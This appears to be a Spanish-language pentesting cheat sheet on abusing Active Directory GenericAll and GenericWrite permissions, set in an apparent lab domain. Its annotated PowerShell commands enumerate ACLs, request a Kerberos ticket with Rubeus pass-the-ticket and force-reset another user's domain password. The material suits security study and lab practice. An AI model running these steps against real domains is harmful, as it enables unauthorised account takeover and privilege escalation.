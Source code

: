 ## GenericAll sobre usuario

```powershell
❯ import-module .\Microsoft.ActiveDirectory.Management.dll  # Usar comandos como "Get-NetUser, Get-DomainUser, Get-ADUser y se filtra con '*'"

❯ Get-ADUser -Identity "userall.user"   # Identificar al usuario que tiene los permisos de 'GenericAll'

❯ $user = Get-ADUser -Identity "userall.user"   # Creamos una variable con el objeto 
❯ $user.SID                                     # Llamamos al SID del objeto 

❯ $SID = Convert-NameToSid userall.user         # Convertimos el nombre del objeto 'usuario' a su SID
❯ $SID                                          # Llamamos al SID del objeto 'usuario'

❯ Get-ObjectAcl -SamAccountName userwrite.user -ResolveGUIDs | Where-Object{$_.ActiveDirectoryRights -eq "GenericAll" -and $_.SecurityIdentifier -eq $SID } | select AceType,ActiveDirectoryRights,ObjectDN | fl  # Enumeramos ACL 

# Otra forma de hacerlo 
❯ Get-ObjectAcl -SamAccountName userwrite.user -ResolveGUIDs | %{$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.Security-Identifier);$_} | ?{$_.IdentityName -match 'userall.user'} | select AceType,IdentityName,ActiveDirectoryRights,ObjectDN | fl 

❯ ./Rubeus.exe asktgt /user:userall.user /password:Password@1 /ptt  # Solicitamos el TGT con la password haciendo Pass-The-Ticket

❯ klist         # Mirar todos los tickets que se encuentran para los diferentes servicios 
❯ klist purge   # Eliminar los tickets que estan en cache

❯ net user userwrite.user P4ssw0rd /domain    # Cambiar la password al usuario 'userwrite.user'
```

## GenericWrite sobre computador

* [Abusin-AD-ACLs-ACEs](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
* [HackTricks-Abusing-AD-ACLs-ACE](https://book.hacktricks.xyz/es/windows-hardening/active-directory-methodology/acl-persistence-abuse)

```powershell
❯ $user = Get-ADUser -Identity "compwrite.user"    # Creamos una variable con el objeto 'usuario'
❯ $user.SID                                        # Ver el atributo SID del objeto 'usuario'


❯ Get-ObjectAcl -SamAccountName First-DC -ResolveGUIDs | ?{$_.ActiveDirectoryRights -eq "GenericWrite" -and $_.SecurityIdentifier -eq "S-1-5-21-1861162130-2580302541-221646211-1124" } | select AceType,ActiveDirectoryRights,ObjectDN | fl

# Otra forma de poner el SID pero antes se debe agregar a la variable convertido 
❯ Get-ObjectAcl -SamAccountName First-DC -ResolveGUIDs | ?{$_.ActiveDirectoryRights -eq "GenericWrite" -and $_.SecurityIdentifier -eq $SID } | select AceType,ActiveDirectoryRights,ObjectDN | fl

Nota: Despues de esto sigue el RBCD
```